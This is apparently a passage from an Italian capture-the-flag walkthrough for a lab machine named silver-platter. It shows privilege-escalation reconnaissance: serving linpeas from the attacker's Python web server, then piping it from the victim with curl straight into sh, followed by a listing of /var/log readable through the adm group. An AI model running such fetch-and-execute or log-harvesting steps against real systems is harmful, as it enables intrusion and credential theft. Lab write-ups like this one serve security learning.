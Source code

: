 Utilizziamo Linpeas

da pc attaccante
```
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```

```
chmod +x linpeas.sh
```

dal pc attaccante apriamo un server python
```
sudo python3 -m http.server 8081 #Host
```
dalla vittima  facciamo puntare al nostro IP al tools linpeas
```
curl 10.10.205.62:8081/linpeas.sh | sh 
```
Vediamo che l'utente **_tyler_** è privilegiato, in quanto fa parte del gruppo sudoers, e che anche noi facciamo parte di un gruppo chiamato **adm**

facendo una ricerca su cosa sia il gruppo adm scopriamo che ci permette di leggere in
**/var/logs**

```
cd /var/logs
```
vediamo cosa c'è in questa directory
```
tim@silver-platter:/var/log$ ls -al
total 2144
drwxrwxr-x  11 root      syslog            4096 Jun 21 07:26 .
drwxr-xr-x  14 root      root              4096 Dec 12  2023 ..
-rw-r--r--   1 root      root                 0 May  1  2024 alternatives.log
-rw-r--r--   1 root      root             34877 Dec 12  2023 alternatives.log.1
drwx------   3 root      root              4096 May  8  2024 amazon
drwxr-xr-x   2 root      root              4096 May  1  2024 apt
-rw-r-----   1 syslog    adm               3948 Jun 21 09:58 auth.log
-rw-r-----   1 syslog    adm               6356 Jun 21 07:25 auth.log.1
-rw-r-----   1 syslog    adm              32399 Dec 13  2023 auth.log.2
-rw-r-----   1 syslog    adm                755 May  8  2024 auth.log.2.gz
-rw-r--r--   1 root      root               600 May  8  2024 aws114_ssm_agent_installation.log
-rw-r--r--   1 root      root             64549 Aug 10  2023 bootstrap.log
-rw-rw----   1 root      utmp                 0 Jun 21 07:25 btmp
-rw-rw----   1 root      utmp               384 May  1  2024 btmp.1
-rw-r-----   1 syslog    adm             680197 Jun 21 07:26 cloud-init.log
-rw-r-----   1 root      adm              32825 Jun 21 07:26 cloud-init-output.log
drwxr-xr-x   2 root      root              4096 Aug  2  2023 dist-upgrade
-rw-r-----   1 root      adm              46118 Jun 21 07:26 dmesg
-rw-r-----   1 root      adm              45164 May  8  2024 dmesg.0
-rw-r-----   1 root      adm              14486 May  8  2024 dmesg.1.gz
-rw-r-----   1 root      adm              14519 May  8  2024 dmesg.2.gz
-rw-r-----   1 root      adm              14523 May  1  2024 dmesg.3.gz
-rw-r-----   1 root      adm              14543 Dec 13  2023 dmesg.4.gz
-rw-r--r--   1 root      root                 0 Jun 21 07:25 dpkg.log
-rw-r--r--   1 root      root               490 May  8  2024 dpkg.log.1
-rw-r--r--   1 root      root             50823 Dec 13  2023 dpkg.log.2.gz
-rw-r--r--   1 root      root             32064 Dec 13  2023 faillog
drwxr-x---   4 root      adm               4096 Dec 12  2023 installer
drwxr-sr-x+  3 root      systemd-journal   4096 Dec 12  2023 journal
-rw-r-----   1 syslog    adm               2524 Jun 21 07:26 kern.log
-rw-r-----   1 syslog    adm             185833 Jun 21 07:25 kern.log.1
-rw-r-----   1 syslog    adm              27571 May  8  2024 kern.log.2.gz
-rw-r-----   1 syslog    adm              82570 Dec 13  2023 kern.log.3.gz
drwxr-xr-x   2 landscape landscape         4096 Dec 12  2023 landscape
-rw-rw-r--   1 root      utmp            292584 Jun 21 09:34 lastlog
```